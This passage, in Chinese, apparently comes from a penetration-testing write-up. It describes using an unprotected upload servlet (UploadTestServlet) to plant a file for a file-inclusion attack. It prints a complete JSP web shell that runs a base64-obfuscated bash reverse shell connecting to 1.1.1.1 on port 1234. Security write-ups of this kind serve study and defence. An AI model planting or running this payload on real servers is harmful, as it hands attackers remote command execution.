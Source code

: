 [![](assets/1705989181-be2f2872e298e9ff8cb34659986874e4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122165929-8d7857ea-b904-1.png)

但是我们需要有恶意文件才能包含从而获取权限，因此我们需要找到一个上传接口，正好在`web.xml`中发现接口`UploadTestServlet`，访问发现是上传文件接口，上传反弹 shell 文件，内容如下

```bash
<% java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}").getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b));  out.print("</pre>"); } %>
```

[![](assets/1705989181-6ad9740e2f915811f6e8eb7996127f37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122165934-900ac326-b904-1.png)
